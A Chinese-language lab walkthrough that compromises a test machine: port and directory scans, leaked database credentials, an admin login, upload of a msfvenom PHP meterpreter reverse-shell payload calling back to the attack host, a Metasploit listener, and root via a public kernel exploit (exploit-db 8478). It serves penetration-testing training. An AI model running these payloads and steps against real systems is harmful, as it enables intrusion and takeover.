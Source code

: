 
# 0x00环境
攻击机IP：192.168.1.28<br />目标机IP：192.168.1.24


# 0x01实战

## 端口扫描
```
nmap -sV -p- 192.168.1.24
```
![](https://img-blog.csdnimg.cn/dbff3ed44b264529be71073e8bcd3e1f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=uS5Q9&originHeight=545&originWidth=1209&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以看到开放了很多端口


## 目录扫描
扫描出一堆东西<br />![](https://img-blog.csdnimg.cn/d66c2d1b1fef46abb1706cabde75a296.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=bKMer&originHeight=563&originWidth=1110&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 漏洞发现
根据扫描出来的目录查找发现<br />直接可以看到phpinfo<br />![](https://img-blog.csdnimg.cn/fca72255d3734af0a973f3e10e8a4cc7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=zaMM7&originHeight=491&originWidth=1041&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以访问db.sql文件，直接得到数据库账户和密码<br />![](https://img-blog.csdnimg.cn/52236421eba640deaac0e1c6610da459.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=c2243&originHeight=306&originWidth=853&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

等还有其它的一些东西就不列举了。。。


## 漏洞利用
访问80端口HTTP服务可以知道`本网站由Toby Victor开发。它由PHP和MySQL提供支持，并托管在CentOSlinux 服务器上。`<br />![](https://img-blog.csdnimg.cn/6d90072838474c1faa7bb14efb5e3fc6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_12,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=EGel9&originHeight=258&originWidth=428&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

尝试使用上面得到的账户admin/adminpass登录网站<br />![](https://img-blog.csdnimg.cn/648154c95b3a49eab4221584c3f3ca56.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=heDQQ&originHeight=411&originWidth=915&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

成功登录，登录后我们可以发现我们可以编辑页面并上传图片<br />![](https://img-blog.csdnimg.cn/7910b55a0e35497baa848a3e58951e55.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=qL1wg&originHeight=812&originWidth=1176&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

而且前面我们在网站主页得知是支持PHP的，那么我们可以尝试上传木马文件反弹shell

创建PHP木马文件尝试通过文件上传来上传
```
msfvenom -p php/meterpreter/reverse_tcp -o /root/shell.php  lhost=192.168.1.28 lport=4444
```

![](https://img-blog.csdnimg.cn/f0326518af994d1494da6e7a4b2e7d8b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=IHDBc&originHeight=303&originWidth=1498&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

尝试上传，如果失败再尝试绕过<br />![](https://img-blog.csdnimg.cn/c7fce59fe74741aea2c03d4151d5da13.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=ihn0l&originHeight=621&originWidth=817&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在主页可以看到上传成功<br />![](https://img-blog.csdnimg.cn/72f2e19be0e54f5ea000d40b2d592926.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Q0ZxG&originHeight=312&originWidth=829&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

创建监听
```
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 192.168.1.28
set lport 4444
run
```

![](https://img-blog.csdnimg.cn/e4f1ed4235dd49f9b943c6ae514a2ec0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Q0m7t&originHeight=343&originWidth=908&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在主页上点击Read more即可反弹shell<br />![](https://img-blog.csdnimg.cn/a9fb4db93a694b53b4012b1ebcb66bc4.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=gcGBi&originHeight=289&originWidth=820&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
![](https://img-blog.csdnimg.cn/d3b3a01baaa44a179e66d7121b6c3d0c.png#crop=0&crop=0&crop=1&crop=1&id=jO9Oy&originHeight=194&originWidth=1327&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 提权
查看系统信息
```
sysinfo
```

不知为何无法执行命令<br />![](https://img-blog.csdnimg.cn/6ad3d620c154467895ca239d0a605aa1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=e2tog&originHeight=243&originWidth=1025&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

使用老版kali（192.168.1.12）<br />![](https://img-blog.csdnimg.cn/484f14d5142d4c8084f8207cc5696011.png#crop=0&crop=0&crop=1&crop=1&id=oK07b&originHeight=154&originWidth=1340&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

内核版本为2.6.18-92.el5，在互联网查漏洞利用https://www.exploit-db.com/exploits/8478<br />![](https://img-blog.csdnimg.cn/784b698192ac4b47a5e493d4f112db9f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=k9FX8&originHeight=441&originWidth=1379&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

将提权脚本下载并查看<br />![](https://img-blog.csdnimg.cn/0f4ef42176434dee9253035a86639b97.png#crop=0&crop=0&crop=1&crop=1&id=l4fHH&originHeight=163&originWidth=556&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

将dos格式修改为linux格式
```
dos2unix 8478.sh
```
![](https://img-blog.csdnimg.cn/30b1ab685475457bab9936b4061311b9.png#crop=0&crop=0&crop=1&crop=1&id=JdRiX&originHeight=160&originWidth=579&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

上传到靶机上的tmp目录中<br />![](https://img-blog.csdnimg.cn/ec0943b5ef9a48c78b03a1ad61ad3943.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=JcS9c&originHeight=252&originWidth=733&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

赋予脚本执行权限并执行
```
chmod +x 8478.sh
```
![](https://img-blog.csdnimg.cn/2d567457721a4686b2d076133c449cca.png#crop=0&crop=0&crop=1&crop=1&id=DR8Ji&originHeight=188&originWidth=1114&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

报错，因为必须为脚本提供正确的 PID 才能使代码正常工作。所以现在我们必须找到一个合适的 PID，并在该 PID 的帮助下运行脚本
```
cat /proc/net/netlink
```
![](https://img-blog.csdnimg.cn/ac31bbf769884b19bc8f73d444a301e6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=XTgO2&originHeight=435&originWidth=953&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

执行脚本，多尝试几次，成功得到root权限
```
./8478.sh 568
```
![](https://img-blog.csdnimg.cn/f346b6d2259343409c7e3da9611d3a22.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=NSkVQ&originHeight=490&originWidth=1129&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

